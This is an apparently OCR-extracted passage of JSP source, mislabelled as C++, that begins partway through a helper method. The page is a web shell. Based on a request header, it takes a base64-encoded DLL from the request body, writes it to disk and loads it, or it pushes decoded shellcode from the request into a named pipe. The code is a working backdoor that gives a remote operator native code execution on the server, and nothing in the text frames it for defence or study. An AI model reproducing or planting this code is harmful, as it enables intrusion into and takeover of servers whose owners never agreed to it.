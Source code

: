 ```cpp
        fos.write(decoder.decode(new BufferedReader(new InputStreamReader(stream)).readLine().getBytes()));
        fos.close();
        return file.getAbsolutePath();
    }

    private void RuntimeLoad(String path){
        Runtime.getRuntime().load(path);
    }

    private void SystemLoad(String path){
        System.load(path);
    }

    private void NativeLoad(String path) throws Exception{
        Class<?> Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
        if(Native != null){
            java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
            Load.invoke(path);
        }
    }
%>

<%	

    String pipeName = "\\\\.\\pipe\\josPipe";
	
    try {
        String method = request.getHeader("WWW-Authenticate");
        if (method == null) {
            out.println("Start");
            return;
        }
        if (method.equals("load")) {
            ServletInputStream stream = request.getInputStream();
            String file = UploadBase64DLL(stream);
            try {
                RuntimeLoad(file); 
                out.println("Load dll successfully!"); 
            } catch (Exception e) {
                out.println("Failed to load dll: " + e.getMessage()); 
            }
        } else if (method.equals("shellcode")) { // Removed one extra } from here
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x01);
            pipe.write(Base64.getDecoder().decode(new BufferedReader(new InputStreamReader(request.getInputStream())).readLine().getBytes()));
            pipe.close();
        } 
		
		
    } catch (Exception e) {
        System.out.println(e.toString());
    }
%>
```
